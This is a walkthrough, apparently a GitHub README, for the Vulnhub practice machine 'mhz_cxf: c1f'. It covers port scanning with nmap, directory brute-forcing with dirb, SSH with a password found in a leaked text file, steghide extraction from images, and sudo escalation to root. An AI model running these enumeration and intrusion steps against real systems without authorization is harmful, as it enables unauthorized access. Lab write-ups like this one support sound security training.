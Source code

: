 # mhz_cxf-c1f-Vulnhub-Walkthrough
mhz_cxf: c1f Vulnhub Walkthrough

**Description**
A piece of cake machine
You will learn a little about enumeration/local enumeration , steganography.
This machine tested on Virtualbox , so i'm not sure about it with Vmware
This works better with VirtualBox rather than VMware.

Vulnhub link: https://www.vulnhub.com/entry/mhz_cxf-c1f,471/

***Name: mhz_cxf: c1f***
***Date release: 24 Apr 2020***
***Author: mhz_cyber & Zamba***
***Series: mhz_cxf***

So let's begin hacking!!

**Step 1: Scan the machine**

> nmap -A -p- <IP_address_of_your_machine>

![Screenshot](1.png)

From the scan we can see that, port 22 and 80 are open. Let's explore port 80.

**Step 2: Go to machine's IP in web browser**

In your web browser

>http://<IP_address_of_your_machine>  

![Screenshot](2.png)

This doesn't help us much! Let's try bruteforcing the IP with dirb.

**Step 3: Bruteforce the IP with dirb**

> dirb http://<IP_address_of_your_machine> -X .txt

We are looking only for files containing .txt extension
![Screenshot](3.png)

From this step we got a file called notes.txt, let's take a look at the page.
>http://<IP_address_of_your_machine>/notes.txt

![Screenshot](4.png)

From this we came to know that there are two files remb.txt and remb2.txt

**Step 4: Take a look at remb.txt file**

> http://<IP_address_of_your_machine>/remb.txt

![Screenshot](5.png)

It looks like we should try ssh'ing in next step from the text file data.(port 22 was open right XD )

**Step 5: SSH into the machine**

> ssh first_stage@<IP_address_of_your_machine>

when it prompts to enter password, enter this

>flagitifyoucan1234

![Screenshot](5a.png)

And yes! we are successful to ssh into the machine, let's explore the machine! I wonder what and all it can have!!

**Step 6: Explore the machine**

>ls

>cat user.txt

![Screenshot](6.png)

And that's it! We are halfway done.. now try to be root and complete the machine!!

**Step 7: Explore a little bit more**

>cd ..

>ls

>cd mhz_c1f

>ls

>cd Paintings

>ls

![Screenshot](7.png)

It looks like suspicious about the Paintings! isn't it?
Let's download and take a closer look at the paintings.

**Step 8: Download the Paintings**

> scp first_stage@<IP_address_of_your_machine>:/home/mhz_c1/fPaintings/* .

![Screenshot](7a.png)

I'm here making a new folder which contains all the Paintings.

**Step 9: Extract information from images**

>steghide extract -sf 'spinning the wool.jpeg'

Press enter when it asks for passphrase

![Screenshot](7b.png)

So there is a new file now remb2.txt (Heard of this file name before?)

**Step 10: Take a look at remb2.txt file** 

> cat remb2.txt

![Screenshot](8.png)

So we got something more important now, isn't it?

**Step 11: Final step of becoming root**
>id

>sudo su

>ls -la

>cat .root.txt

![Screenshot](10.png)

And That's it! We completely hacked the machine and became root!!

**Thank you!**


